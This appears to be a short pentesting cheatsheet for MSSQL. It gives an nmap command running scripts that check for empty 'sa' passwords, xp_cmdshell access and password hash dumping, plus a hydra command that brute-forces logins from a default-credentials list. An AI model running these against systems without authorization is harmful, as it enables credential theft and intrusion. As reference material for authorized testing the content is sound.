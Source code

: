 # MSSQL Exploitation and Enumeration Cheatsheet

## Nmap Script

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes \
--script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER \
-sV -p 1433 192.168.1.1
```

## Brute Force with Hydra

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/mssql-betterdefaultpasslist.txt mssql://192.168.1.1
